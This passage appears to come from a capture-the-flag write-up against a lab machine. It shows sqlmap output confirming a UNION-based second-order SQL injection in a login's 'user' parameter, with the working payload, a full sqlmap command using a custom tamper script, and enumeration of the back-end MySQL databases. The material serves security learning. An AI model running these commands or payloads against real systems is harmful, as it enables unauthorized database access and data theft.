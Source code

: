 

    [05:19:17] [INFO] heuristic (basic) test shows that POST parameter 'user' might be injectable
    [05:19:18] [INFO] testing for SQL injection on POST parameter 'user'
    [05:19:18] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
    [05:19:21] [WARNING] reflective value(s) found and filtering out
    [05:19:32] [INFO] target URL appears to be UNION injectable with 2 columns
    [05:19:33] [INFO] POST parameter 'user' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
    [05:19:33] [INFO] checking if the injection point on POST parameter 'user' is a false positive
    POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N]



Having found user vulnerable, and having no others to check, we'll say
`N`. We get the following summary:



    POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
    sqlmap identified the following injection point(s) with a total of 21 HTTP(s) requests:
    ---
    Parameter: user (POST)
        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: user=aaaaaaaaabcddddd') UNION ALL SELECT CONCAT(0x716a627a71,0x786d534f4d5846644173476c53616972434878705241514d437059444743677872664f6257515a57,0x716a767071),NULL-- NdDm&pass=df&login=Login
    ---
    [05:23:48] [WARNING] changes made by tampering scripts are not included in shown payload content(s)



It's interesting that it calls this 21 requests, when we saw somewhere
between 75 and 79, depending on if you count the four at start.

Then it continues to test the database version. It does this with
another 3 sets of three queries, and confirms it's `mysql`:



    [05:23:48] [INFO] testing MySQL
    [05:23:50] [INFO] confirming MySQL
    [05:23:54] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
    web application technology: Apache 2.4.18
    back-end DBMS: MySQL >= 5.0.0
    [05:23:54] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.66'

    [*] shutting down at 05:23:54



### Database Enumeration

With a working injection, we can now do further enumeration.

Adding `--dbs` will show the database names:



    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0
    .1:8080 --dbs
    ...
    [05:38:02] [INFO] fetching database names
    [05:38:03] [INFO] used SQL query returns 3 entries
    [05:38:05] [INFO] retrieved: information_schema
    [05:38:06] [INFO] retrieved: notes
    [05:38:07] [INFO] retrieved: sysadmin
    available databases [3]:
    [*] information_schema
    [*] notes
    [*] sysadmin
